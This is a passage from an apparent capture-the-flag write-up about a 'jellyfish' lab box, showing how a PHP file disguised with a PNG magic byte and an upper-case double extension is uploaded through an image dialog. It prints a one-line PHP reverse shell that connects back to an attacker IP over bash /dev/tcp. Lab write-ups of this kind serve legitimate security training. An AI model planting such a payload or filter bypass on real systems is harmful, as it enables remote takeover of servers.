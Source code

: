 Now clicking on the Images button brings up a dialog where we can select our shell:

![jellyfish-shell+1](/assets/images/2021-04-27-21-56-26.png)

The same rules apply as before, so it has the magic byte to imitate a picture, and a double extension with PHP in upper case:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# cat shell.png.PHP                                                   
�PNG
▒
<?php echo system("bash -c 'bash -i >& /dev/tcp/10.8.165.116/443 0>&1'");
```

Selecting our file brings this dialog up that tells us where the file will be uploaded to:

![jellyfish-image+1](/assets/images/2021-04-27-21-56-44.png)

Clicking upload gives us this dialog which confirms it uploaded successfully:

![jellyfish-image-upload+1](/assets/images/2021-04-27-21-57-01.png)
